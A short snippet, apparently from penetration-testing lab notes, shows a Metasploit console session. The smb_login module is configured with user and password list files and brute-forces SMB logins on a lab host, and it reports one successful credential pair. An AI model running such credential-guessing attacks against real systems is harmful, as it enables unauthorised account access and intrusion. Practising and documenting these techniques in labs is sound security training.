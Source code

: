 ```sh
msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts


msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
```